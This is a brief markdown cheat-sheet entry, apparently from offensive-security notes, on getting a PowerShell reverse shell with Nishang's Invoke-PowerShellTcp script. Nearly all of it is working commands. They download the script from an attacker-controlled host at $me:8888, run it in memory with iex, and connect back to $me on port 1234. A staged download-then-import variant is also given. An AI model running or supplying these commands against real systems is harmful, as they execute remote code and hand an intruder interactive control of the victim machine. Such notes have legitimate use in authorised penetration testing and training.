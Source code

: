 # powershell

- Powershell reverse shell can be found at [https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Connect to listener using

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://$me:8888/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress $me -Port 1234
```

Or the same but in stages

```powershell
powershell (New-Object Net.WebClient).Downloadfile('http://$me:8888/Invoke-PowerShellTcp.ps1')
powershell Import-Module ./Invoke-PowerShellTcp.ps1; Invoke-PowershellTcp -Reverse -IPAddress $me -Port 1234
```